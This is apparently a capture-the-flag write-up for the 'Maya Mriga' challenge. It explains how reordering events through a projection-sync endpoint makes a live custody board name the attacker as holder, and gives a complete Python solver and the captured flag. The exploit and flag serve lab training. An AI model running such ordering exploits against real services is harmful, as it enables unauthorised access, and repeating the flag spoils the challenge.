





# V04 - Maya Mriga: The Golden Illusion

**Flag:** `PINAKA{maricha_golden_deer_projection_reveals_the_captor}`
Target: `http://130.210.48.10:9005`

## Summary

The service keeps two views of custody: an authoritative fold that pairs claims and releases by correlation ID, and a "live board" projection that replays events by position. We're allowed to choose the replay order. If I put every claim first, the releases after them, and my own claim last, the board shows me as the holder, while the real history still says `warden-jatayu`.

## Poking at the API

Enrolling gives a ranger ID and a token. The authenticated GET routes show the committed event log, the live projection and the authoritative fold. The write routes take the token in the JSON body.



## Where it breaks

`/projection/sync` takes a permutation of the committed event IDs. The projection matches claims and releases by order, not by correlation ID, so changing the order changes who ends up holding custody. The fold isn't affected.



## Exploit

1. Create a claim as my ranger and note its event ID.
2. Fetch the full log.
3. Sync with: all other claims, then all releases, then everything else, then my claim.

Every event ID is still there, so it passes as a valid permutation, but the last claim standing is mine.



After the sync, the board showed my ranger and the fold still showed `warden-jatayu`. The capture route returned `captured: true` and the flag.




## Solver (`solve.py`)

```python
#!/usr/bin/env python3
"""Reorder the live projection and claim the Maya Mriga capture writ."""
import json
import os
import sys
import urllib.error
import urllib.request
from pathlib import Path

ROOT = Path(__file__).resolve().parent
BASE = os.environ.get("PINAKA_V04_URL", "http://130.210.48.10:9005").rstrip("/")


def request(method, path, token=None, body=None):
    headers = {"Content-Type": "application/json"}
    if token:
        headers["X-Ranger"] = token
    data = None
    if body is not None:
        body = dict(body)
        if token:
            body.setdefault("token", token)
        data = json.dumps(body, separators=(",", ":")).encode("utf-8")
    req = urllib.request.Request(BASE + path, data=data, headers=headers, method=method)
    try:
        with urllib.request.urlopen(req, timeout=60) as response:
            raw = response.read()
            return json.loads(raw) if raw else {}
    except urllib.error.HTTPError as exc:
        detail = exc.read().decode("utf-8", errors="replace")
        raise RuntimeError(f"{method} {path} returned HTTP {exc.code}: {detail}") from exc


def main():
    enrolled = request("POST", "/ranger/enroll", body={})
    ranger, token = enrolled["ranger"], enrolled["token"]
    print("Enrolled:", ranger)

    claim = request("POST", "/track/claim", token=token, body={})
    mine = claim.get("event", {})
    my_eid = mine.get("eid")
    if not claim.get("accepted") or not my_eid:
        raise RuntimeError(f"claim was not accepted: {claim}")
    print("Claim event:", my_eid)

    log = request("GET", "/forest/log", token=token)
    events = log.get("events", [])
    if not events:
        raise RuntimeError("forest log contained no events")
    ids = [event["eid"] for event in events]
    if len(set(ids)) != len(ids) or my_eid not in ids:
        raise RuntimeError("forest event IDs were duplicated or omitted our claim")
    claims = [event["eid"] for event in events if event.get("type") == "claim" and event["eid"] != my_eid]
    releases = [event["eid"] for event in events if event.get("type") == "release"]
    other = [event["eid"] for event in events if event.get("type") not in ("claim", "release")]
    order = claims + releases + other + [my_eid]
    if len(order) != len(ids) or set(order) != set(ids):
        raise RuntimeError("projection order is not a permutation of the event log")
    print(f"Reordering {len(events)} committed events: {len(claims)} claims, {len(releases)} releases")

    replay = request("POST", "/projection/sync", token=token, body={"order": order})
    if not replay.get("accepted"):
        raise RuntimeError(f"projection replay was rejected: {replay}")
    print("Projection sync accepted:", replay.get("accepted"),
          "board_holder:", replay.get("board_holder"))
    board = request("GET", "/forest/board", token=token)
    authoritative = request("GET", "/forest/authoritative", token=token)
    live_holder = board.get("holder")
    true_holder = authoritative.get("holder")
    print("Live board holder:", live_holder)
    print("Authoritative holder:", true_holder)
    if live_holder != ranger:
        raise RuntimeError("reordered projection did not assign the deer to this ranger")

    result = request("POST", "/capture", token=token, body={})
    print("Capture writ:", json.dumps(result, indent=2, sort_keys=True))
    flag = result.get("flag")
    if not flag:
        raise RuntimeError("capture response did not include a flag")
    print("Flag:", flag)
    (ROOT / "transcripts" / "05_flag.txt").write_text(f"Capture writ flag: {flag}\n")


if __name__ == "__main__":
    main()
```
